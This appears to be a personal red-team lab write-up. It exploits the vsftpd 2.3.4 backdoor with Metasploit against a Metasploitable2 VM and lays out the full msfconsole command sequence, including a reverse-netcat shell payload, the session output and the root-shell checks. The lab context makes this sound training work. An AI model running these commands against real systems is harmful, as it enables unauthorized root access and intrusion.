





# 02 — Exploitation: vsftpd 2.3.4 Backdoor via Metasploit

## Category
Red Team / Exploitation / Metasploit Framework

## Objective
Exploit the vsftpd 2.3.4 FTP server backdoor using
Metasploit Framework to obtain a root shell on the target.

## Background — The Story of This Backdoor
In July 2011 someone compromised the official vsftpd repository
and inserted a backdoor in source code v2.3.4.
The trigger: sending a username containing ":)" opens
a root shell on port 6200. No CVE assigned — it was
discovered and removed in 3 days, but anyone who had already
downloaded that version was compromised.

## Environment

| Role | VM | IP | Port |
|---|---|---|---|
| Attacker | Kali Linux | 10.10.10.100 | 4444 (listener) |
| Target | Metasploitable2 | 10.10.10.101 | 21 (FTP) |

## Tool
**Metasploit Framework v6.4.116** — pre-installed on Kali.

## Full Procedure

### 1 — Start Metasploit
```bash
msfconsole
```


### 2 — Search and Select Module
```
msf > search vsftpd
msf > use exploit/unix/ftp/vsftpd_234_backdoor
```
Module has **excellent** rank — maximum reliability.



### 3 — Configure Options
```
msf exploit(...) > show options
```


Required options:
- `RHOSTS` — target IP
- `LHOST` — Kali IP (needed for reverse shell)
- `PAYLOAD` — shell type

### 4 — Error Encountered: Missing LHOST

First attempt without LHOST:
```
[-] Msf::OptionValidateError: LHOST required
```


**Cause:** reverse shell payload requires LHOST — the target
must know where to connect. Fixed by changing payload and
setting LHOST explicitly.

### 5 — Correct Configuration and Exploit
```
msf exploit(...) > set PAYLOAD cmd/unix/reverse_netcat
msf exploit(...) > set LHOST 10.10.10.100
msf exploit(...) > set RHOSTS 10.10.10.101
msf exploit(...) > run
```

Output:
```
[*] Started reverse TCP handler on 10.10.10.100:4444
[+] 10.10.10.101:21 - Backdoor has been spawned!
[*] Command shell session 1 opened (10.10.10.100:4444 → 10.10.10.101:33087)
```

### 6 — Root Shell Verification
```bash
whoami    # root
id        # uid=0(root) gid=0(root)
hostname  # metasploitable
uname -a  # Linux metasploitable 2.6.24-16-server i686
```



## Comparison with Previous Exploit

| Aspect | nc port 1524 | Metasploit vsftpd |
|---|---|---|
| Tool | netcat | Metasploit Framework |
| Type | Bind shell | Reverse shell |
| Connection | Kali → Target | Target → Kali |
| Complexity | Minimal | Medium |

## Lessons Learned
- Metasploit requires LHOST for reverse shell payloads
- Raw shell shows no prompt — does not mean it is stuck
- Rank "excellent" = stable and reliable exploit
- The right payload depends on target OS: Metasploitable2
  is old i686, `cmd/unix/reverse_netcat` is more compatible
  than modern meterpreter

## Snapshot
`03-kali-vsftpd-exploit-metasploit`
